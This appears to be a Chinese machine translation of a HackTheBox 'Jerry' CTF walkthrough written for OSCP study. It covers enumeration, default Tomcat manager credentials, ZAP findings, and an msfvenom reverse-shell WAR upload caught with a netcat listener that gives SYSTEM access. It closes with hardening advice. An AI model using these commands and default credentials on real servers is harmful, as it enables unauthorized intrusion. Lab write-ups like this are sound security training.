# 如何黑:黑客盒子的杰瑞

> 原文：<https://infosecwriteups.com/how-to-hack-jerry-from-hackthebox-556effb3a5e?source=collection_archive---------1----------------------->

## 我的 OSCP 认证之旅



尿壶

# 介绍

欢迎来到我的第三篇文章。今天我们将关注黑客盒子的杰瑞。这是一个现实的和非常容易的盒子。这篇文章将再次类似于我的第一和第二篇文章，因为我将提供一些关于这个盒子的更多信息，以及为什么它容易受到攻击。但是，下面的文章不会给出我将使用的不同工具的太多信息。你可以在我的 [**系列的第一篇**](https://medium.com/@marvingerlach/hackthebox-popcorn-f1ace3de846d) 中查找。您可以在 Kali 提供的工具中找到备忘单和有用的信息。这会节省一些时间。

有一个来自 [TJ_Null](https://docs.google.com/spreadsheets/u/1/d/1dwSMIAPIam0PuRBkCiDI88pU3yzrqqHkDtBngUHNCw8/htmlview#) 的类似 OSCP 的盒子列表，我想在我的系列中浏览一下。在寻找 OSCP·蒂普斯的时候，我发现了一些新的很酷的工具，我将会尝试一下。

在我的前两篇文章中，我使用 nmap 作为我自己方法的第一个枚举步骤。基于开放的端口，我使用其他工具来寻找漏洞。这一次我将使用我发现的一个叫做 [nmapAutomator](https://github.com/21y4d/nmapAutomator) 的新工具。它基本上是一个脚本，运行几个 nmap 扫描，并使用其他工具，如 nikto，gobuster 等。基于开放端口。所以让我们开始吧:

# 设置

在我们开始之前，对我的设置说几句话:

*   虚拟机上的 Kali Linux
*   Tilix :一个面向 Linux 的分块终端仿真器
*   记笔记的樱桃树，我强烈推荐来自[詹姆斯·霍尔](https://411hall.github.io/OSCP-Preparation/)的模板

# 列举

今天我们将关注来自 HackTheBox 的 Jerry，所以启动并运行您的 VPN 吧。

首先，让我们从枚举开始，以便获得尽可能多的关于机器的信息。这将是我第一次使用 nmapAutomator 脚本。因为我不着急，所以我将使用“All”参数，它将连续运行所有扫描。这是命令:

```
./nmapAutomator.sh 10.10.10.95 All
```

完成所有扫描可能需要大约 20-30 分钟，但是脚本开始时会进行快速扫描，所以我们在 13 秒后会得到一些信息。似乎只有带有 Apache Tomcat 的端口 8080 是打开的。我们将让扫描在后台运行，以便 nikto 和 gobuster 可以找到一些目录。

同时我们可以看看 8080 端口上的网页。

# 默认网页



Apache Tomcat/7.088

Apache Tomcat 7.0.88 属于“使用具有已知漏洞的组件”一类。该版本有一些关键漏洞记录在 [CVE](https://www.cvedetails.com/vulnerability-list/vendor_id-45/product_id-887/version_id-281963/Apache-Tomcat-7.0.88.html) 中:最新版本是 9.0.73。如果这是一个客户端服务器，我会将风险设置为严重，并立即确保尽快修复这个问题。让默认网页保持运行从来都不是一个好主意。这只是表明，一切都是如何糟糕的实现，可能会有更多的漏洞。非常不好的做法！这将记录在 pentest 报告中。

# 401 未授权页面

我点击了“经理应用”按钮，出现了一个登录框。点击“取消”按钮后，我看到了一个 401 未授权页面:



401 未经授权

首先引起我注意的是:“tomcat”和“s3cret”看起来像是访问管理器应用程序的凭证。我认为很明显，在 401 未授权页面上向用户提供凭据不是一个好主意。我还没有查看我的 nmapAutomater 扫描结果，但已经找到了凭据，只是在页面上浏览了一下。

在一次测试中，我总是启动一个类似 ZAP 的攻击代理，然后在网页上点击。ZAP 获得了如此多的发现。源代码中的凭证并不像您想象的那样不常见。

# 经理应用程序

我使用凭证“tomcat:s3cret”登录管理器应用程序。环顾四周之后，可以肯定地说，war 文件上传功能将是我选择的攻击点。但在想出一个漏洞之前，我会看看扫描结果，看看是否有一些更有趣的目录。

# 自动扫描结果

扫描花了漫长的 37 分钟才完成，然而它发现了一些有趣的发现。我们运行了 nmap 快速、基本、udp、完整和 vuln 扫描。之后，脚本运行 gobuster 来查找更多的目录和 nikto，这是一个 web 服务器扫描器。这是扫描的结果:



扫描结果

现在，我将概述自动扫描发现的漏洞和发现:

*   端口 8080:运行 Apache Tomcat 7 . 0 . 88 版/Coyote JSP engine 1.1。Tomcat 版本记录了 CVE 的漏洞。
*   http-server-header:Apache-Coyote/1.1 将是 pentest 报告中属于“信息暴露”类别的较低发现。攻击者不需要知道运行的是哪种服务器。
*   nmap 漏洞扫描发现了一些目录:/examples、/manager/html/upload、/manager/html 和/docs
*   nikto 发现了一些容易实现的成果，这些成果将记录在 pentest 报告中:X-Frame-Options-Header、XSS-Header 和 X-Content-Type-Header
*   nikto 还在/manager/html 找到了“Tomcat 管理器应用程序”的默认帐户(ID 'tomcat '，PW 's3cret ')。这是巨大的成功。如果我们没有在 401 未授权页面上找到凭证，由于 nikto 扫描，我们仍然会得到它们。如果 nikto 没有找到它们，在谷歌上快速搜索默认的 Apache 凭证就会给我们。
*   应该停用 HTTP 方法选项，除非它与跨源资源共享一起使用(风险:低)，此外，PUT 和 DELETE 方法可能会引起我们的兴趣。

# ZAP 发现

我在后台运行 ZAP 并使用了蜘蛛功能。它还发现了一些发现:

*   URL 重写中的会话 ID



URL 重写中的会话 ID

会话管理是通过安全的 JSESSIONID cookie 完成的。但是，有几个 URL 包含 JSESSIONID，所以如果这是一个真实的 web 应用程序，那么通过 XSS 进行会话固定或窃取会话是可能的。一般来说，“URL 重写中的会话 ID”应该完全避免，会话管理应该只使用安全 cookies 来完成。这在 pentest 报告中是一个很低的发现

*   缺少反 CSRF 令牌


缺少反 CSRF 令牌

在 HTML 表单中没有发现反 CSRF 的标记。CSRF 是一种攻击，在这种攻击中，受害者被迫在不知情或不知情的情况下向目的地发送 HTTP 请求，以便以他们的名义执行操作。根本原因是应用程序功能，其中以可重复的方式使用了可预测的 URL/表单操作。攻击的本质是 CSRF 利用了网页对用户的信任。CSRF 攻击在许多情况下都很有效，包括:受害者在目标页面上有一个活动会话，在目标页面上通过 HTTP 身份验证进行身份验证，或者与目标站点在同一本地网络上。

*   没有 SameSite 属性的 Cookie



没有相同站点属性的 Cookie

cookie 是在没有 SameSite 标志的情况下设置的，这意味着 cookie 可以作为跨站点请求的结果发送。SameSite 标志是针对跨站点请求、跨站点脚本和计时攻击的有效对策。这在 pentest 报告中也是一个较低的发现。

# 剥削

Apache Tomcat 允许您运行代码，因此我们可以上传一个 war 文件，该文件将一个反向 shell 发送回我们的 Kali 机器。首先，我们将访问/manager/html 页面，并使用我们的凭证“tomcat:s3cret”登录。现在我们可以看到这个网页:



Tomcat Web 应用程序管理器

使用 msfvenom，我们可以生成一个包含反向外壳的 war 文件。该命令可能如下所示:

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.11 LPORT=1234 -f war > shell.war
```

p 参数代表“有效负载”。我选择了“Java/JSP _ shell _ reverse _ TCP payload”。然而，还有其他有效载荷也可以工作。之后，我指定了 LPORT，它可以是随机的。f 参数代表“格式”。我们想上传一个 war 文件，所以格式是 war。>符号将在名为“shell.war”的文件中输出漏洞。

现在我们将简单地上传 war 文件:



War 文件上传

我们的 shell 已成功上传:



战争文件上传

我们将在端口 1234 上设置一个 netcat 监听器，这是我们在 war 文件中指定的:

```
nc -nlvp 1234
```

我们现在要做的就是点击/shell 文件。



壳

我们得到了一个具有系统权限的外壳！我们甚至不需要提升这个机器的权限，因为我用“whoami”命令检查了我们的用户。上面说我们是 nt 权威\系统。我们使用本地系统帐户，在本地系统上拥有最高级别的权限。

现在抢 user.txt 和 root txt 简直易如反掌:



User.txt 和 root.txt

# 摘要

这是一个非常基本和简单的盒子，但是它给我们上了一堂关于使用默认密码的有价值的课。我们发现一个开放的端口 8080，它运行的是旧版本的 Apache Tomcat。管理员为管理器界面“tomcat:s3cret”使用默认凭证，这些凭证显示在一个网页上，由 nikto 扫描器找到，也可以通过 Google 搜索找到。这允许我们访问接口并上传一个 war 文件，让我们能够访问服务器。由于默认凭据是公开可用的，并且很容易获得，因此管理员应该使用难以破解的密码。始终使用安全的密码。最佳做法是使用至少 12 个字符长的密码，包括数字和特殊字符。多因素身份认证也是一种很好的应对措施。

此外，Tomcat 不需要系统特权就能正常工作。它应该在具有有限权限的用户帐户下运行。通过这种方式，即使我们能够访问机器，我们也需要找到提升权限的方法，而不是立即获得系统访问权限。请继续关注我的系列文章的第四部分。